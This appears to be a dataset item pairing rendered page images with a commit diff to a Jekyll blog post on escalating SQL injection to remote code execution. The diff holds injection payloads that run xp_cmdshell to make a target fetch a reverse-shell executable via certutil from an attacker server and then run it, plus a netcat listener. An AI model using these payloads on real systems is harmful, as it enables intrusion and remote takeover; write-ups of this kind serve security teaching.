

Before and after one commit to panacotar/blog, a Jekyll site: the page built from _posts/2024-01-08-from-SQL-injection-to-remote-code-execution.md, in a window 1280 px wide and 900 px high, scrolled down 3146 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update sql to rce article

````diff
--- a/_posts/2024-01-08-from-SQL-injection-to-remote-code-execution.md
+++ b/_posts/2024-01-08-from-SQL-injection-to-remote-code-execution.md
@@ -88,7 +88,7 @@ nc -lnvp 3333
 Using the SQLi vector, I can run the **xp_cmdshell** utility to download and execute this file:
 
 ```
-'; EXEC xp_cmdshell 'certutil -urlcache -f http://MY_SERVER_IP_ADDR:8000/rshel.exe C:\Windows\Temp\rshel.exe'; --
+'; EXEC xp_cmdshell 'certutil -urlcache -f http://MY_SERVER_IP_ADDR:8000/rshell.exe C:\Windows\Temp\rshell.exe'; --
 ```
 
 I checked my Python server's output:
@@ -96,12 +96,15 @@ I checked my Python server's output:
 ```shell
 python3 -m http.server 8000
 Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
-MACHINE_IP - - [01/Jan/2024 10:15:01] "GET /rshel.exe HTTP/1.1" 200 -
+MACHINE_IP - - [01/Jan/2024 10:15:01] "GET /rshell.exe HTTP/1.1" 200 -
 ```
 
 Suggesting that the target machine fetched my file.
+I will run the executable file on the target machine.
+```
+'; EXEC xp_cmdshell 'C:\Windows\Temp\rshell.exe'; --
+```
 Now, if everything goes well, my Netcat listener should have a reverse shell connection:
-
 ```
 nc -lnvp 3333
 listening on [any] 3333 ...
````
